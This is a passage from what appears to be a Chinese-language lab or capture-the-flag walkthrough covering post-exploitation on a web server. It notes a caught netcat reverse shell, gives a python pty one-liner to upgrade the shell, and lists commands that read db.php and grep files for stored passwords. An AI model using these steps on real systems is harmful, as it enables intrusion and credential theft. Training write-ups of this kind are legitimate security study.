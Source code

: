 ![image-20230613200753016](图片/image-20230613200753016.png)

nc监听终端已经上线，并查看到用户为：www.date

![image-20230613201331884](图片/image-20230613201331884.png)

为了拥有一个功能外壳，我们可以发出以下命令

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

进入到源代码中找寻到数据库用户密码

```
cd /var/www/html/cdn-cgi/login
cat db.php
```

![image-20230614151529705](图片/image-20230614151529705.png)



在`/var/www/html/cdncgi/login`文件中找到关于密码的文件

```
cat * | grep pass*
```

![image-20230614152217666](图片/image-20230614152217666.png)
